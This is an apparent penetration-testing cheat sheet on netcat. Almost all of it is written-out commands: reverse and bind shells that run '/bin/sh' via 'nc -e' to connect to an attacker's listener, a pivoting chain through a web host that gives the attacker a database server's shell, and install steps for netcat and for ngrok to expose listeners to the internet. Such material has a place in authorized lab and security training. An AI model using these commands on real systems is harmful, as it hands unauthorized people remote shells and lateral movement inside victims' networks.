 ### Netcat: Bind Reverse Shell

![None](https://miro.medium.com/v2/resize:fit:700/1*rp4QYgS5iLU0Qlz3TPcKTw.png)

						Netcat Reverse Shell

![None](https://miro.medium.com/v2/resize:fit:700/1*EosjkH5IckW0KLtyDK5svg.png)

![None](https://miro.medium.com/v2/resize:fit:700/1*xz7XnWnnwJ3tTKcMjudY7g.png)

						Netcat Bind Shell

```
Attacker: nc -nvlp 443 
Web: nc 192.168.100.188 443 -e /bin/sh
```

```
Web: nc -lnvp 443 -e /bin/sh 
Attacker: nc 192.168.100.190 4444 

# Install Netcat: wget http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz tar -xzvf netcat-0.7.1.tar.gz 
cd netcat-0.7.1 
./configure 
make
make install
```

### Netcat: Pivoting

![None](https://miro.medium.com/v2/resize:fit:700/1*4iOq3Akf60vOhEvImfejWg.png)

						Attacker will take over the db shell

![None](https://miro.medium.com/v2/resize:fit:700/1*jCZthAOXPdsSbEhOGj8wqQ.png)

						Netcat Pivoting

```
Attacker: nc -lnvp 443 
Web: nc 192.168.100.188 443 -e "nc 192.168.100.189 8888" 
Db: nc -nlvp 8888 -e /bin/sh
```

### Netcat: Ngrok

![None](https://miro.medium.com/v2/resize:fit:700/0*JcZfzYS7uGh9dOQt.jpeg)

					How to work ngrok

```
# Install Ngrok 1. 
Register ngrok.com 2. Install ngrok on Kali:
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc \ 
| sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \ && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \ 
| sudo tee /etc/apt/sources.list.d/ngrok.list \ 
&& sudo apt update \ 
&& sudo apt install ngrok 

3. Setup token: ngrok config add-authtoken <get-token-from-ngrok.com>
```
